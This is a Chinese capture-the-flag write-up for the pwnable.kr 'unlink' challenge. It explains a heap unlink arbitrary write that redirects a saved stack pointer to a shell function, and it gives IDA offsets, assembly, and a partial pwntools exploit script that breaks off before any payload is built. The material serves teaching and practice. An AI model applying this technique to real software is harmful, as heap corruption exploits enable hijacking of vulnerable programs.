 >进一步就是将ebp-4地址中的值覆写成上面的地址+4.

大致就是利用unlink对地址[ecx-4]进行任意写（shell）

然后retn的时候利用

A,B,C在栈上的位置可从ida中看出

```c
A // [esp+4h] [ebp-14h]
B // [esp+Ch] [ebp-Ch]
C // [esp+8h] [ebp-10h]
```

ebp可以从汇编代码中算出

```asm
.text:08048555                 call    _malloc
.text:0804855A                 add     esp, 10h
.text:0804855D                 mov     [ebp+var_14], eax
```

结合反汇编得到的代码可以得到

ebp-0x14=&A=stack_addr

这样如何解决之前的覆盖问题呢

一种方法是

当BK = ebp-4时，FD + 4 = shell +4 ，FD = shell,  覆写时，[shell+4] = ebp-4

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;//bk是[ebp-4]=[ebp-4] 也即 stack_addr+0x14-0x4
	FD=P->fd;//fd指向ecx=(shell_addr+4) 也即 (heap_addr+0x8)+0x4
	FD->bk=BK;//此时FD->bk=ecx+4 无影响
	BK->fd=FD;//此时BK->fd=ecx=(shell_addr+4)
}
```

### Exp

```python
#coding=utf-8
from pwn import *
context(arch='amd64',os='linux',log_level="DEBUG")

shell=ssh(host='pwnable.kr',user='unlink',password='guest',port=2222)

#shell.download_file("./unlink.c")
#shell.download_file("./unlink")

io=shell.run("./unlink")

shell_addr=0x080484EB

re=io.recvline()
stack_addr=int(re.split(":")[1],16) # &A
re=io.recvline()
heap_addr=int(re.split(":")[1],16) # A
io.recvline()

'''
typedef struct tagOBJ{
	struct tagOBJ* fd;//4 byte
	struct tagOBJ* bk;//4 byte
	char buf[8];//8 byte
}OBJ;
```